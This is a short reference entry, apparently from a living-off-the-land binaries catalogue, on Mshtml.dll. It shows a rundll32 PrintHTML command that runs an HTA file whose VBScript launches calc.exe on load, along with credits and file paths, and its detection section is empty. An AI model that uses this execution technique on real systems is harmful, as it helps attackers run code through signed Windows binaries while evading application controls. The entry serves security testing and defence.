 ## Mshtml.dll

* Functions: Execute

```
rundll32.exe Mshtml.dll,PrintHTML "C:\temp\calc.hta"    
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample (calc.hta):
```
<html>
<head>
	<title>LOLBin</title>
	<script language="VBScript">
		Sub RunProgram
            Set objShell = CreateObject("Wscript.Shell")
            objShell.Run "c:\windows\system32\calc.exe"
			Self.Close
        End Sub
	</script>
</head>
<body onload="RunProgram">
    <h1>LOLBin</h1>
</body>
</html>
```

Resources:
* https://twitter.com/pabraeken/status/998567549670477824

Full path:
```
c:\windows\system32\Mshtml.dll
c:\windows\sysWOW64\Mshtml.dll
```

Notes:


Detection:
